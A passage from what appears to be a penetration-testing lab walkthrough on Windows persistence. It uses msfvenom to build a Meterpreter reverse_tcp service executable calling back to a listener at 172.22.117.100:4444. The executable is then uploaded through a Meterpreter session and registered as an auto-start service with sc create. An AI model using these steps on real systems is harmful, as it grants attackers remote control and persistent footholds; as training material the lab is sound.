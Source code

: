      - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`

     ![A screenshot depicts the results of the command.](Images/msfvenomservice.PNG)

     - The format must be `exe-service` and not just `exe`. Executables run by Service Manager are different than regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
	 - `upload service.exe`

     ![A screenshot depicts the results of the command.](Images/uploadWIN10.PNG)

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`

